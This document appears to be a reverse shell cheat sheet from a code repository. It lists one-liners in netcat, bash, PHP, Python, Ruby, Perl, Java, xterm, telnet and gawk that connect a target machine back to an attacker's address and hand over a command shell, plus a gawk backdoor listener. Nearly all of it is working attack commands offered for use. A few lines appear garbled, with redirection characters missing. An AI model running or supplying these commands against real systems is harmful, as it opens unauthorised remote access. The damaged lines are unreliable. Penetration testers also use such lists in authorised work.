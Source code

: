 # Reverse Shell Cheat Sheet

## Netcat Reverse Shells

> - **nc -e /bin/sh 10.0.0.1 1234**
>
> - **/bin/sh | nc ATTACKING-IP 80**
>
> - **rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p**
>
> If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
>
> - **rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f**

## Bash Reverse Shells

> - **exec /bin/bash 0&0 2>&0**
>
> - **0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196**

> - **exec 5<>/dev/tcp/ATTACKING-IP/80**
>
>   **cat <&5 | while read line; do $line 2>&5 >&5; done**
>
> **or**
>
> - **while read line 0<&5; do $line 2>&5 >&5; done**

> - **bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1**

## PHP Reverse Shells

> - **php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'** <br>
      (Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
 
## PYTHON Reverse Shells

> - **python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'**

## RUBY Reverse Shells

> - **ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'**

## PERL Reverse Shells

> - **perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'**
>
> ### PERL Windows Reverse Shell
>
> - perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;' <br>
>
> - perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## JAVA Reverse Shells

> - **r = Runtime.getRuntime() <br>
> p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]) <br>
> p.waitFor()**

## xterm Reverse Shells

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

> - **xterm -display 10.0.0.1:1**

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

> - **Xnest :1**

You’ll need to authorise the target to connect to you (command also run on your host):

> - **xhost +targetip**

## TELNET Reverse Shells

> - rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
>
> - telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443

## GAWK Reverse Shells

>  #!/usr/bin/gawk -f
>
> BEGIN { <br>
>        Port    =       8080 <br>
>        Prompt  =       "bkd> "
>
>        Service = "/inet/tcp/" Port "/0/0" <br>
>        while (1) { <br>
>                do { <br>
>                        printf Prompt |& Service <br>
>                        Service |& getline cmd <br>
>                        if (cmd) { <br>
>                                while ((cmd |& getline) > 0) <br>
>                                        print $0 |& Service <br>
>                                close(cmd) <br>
>                        } <br>
>                } while (cmd != "exit") <br>
>                close(Service) <br>
>        } 
> }
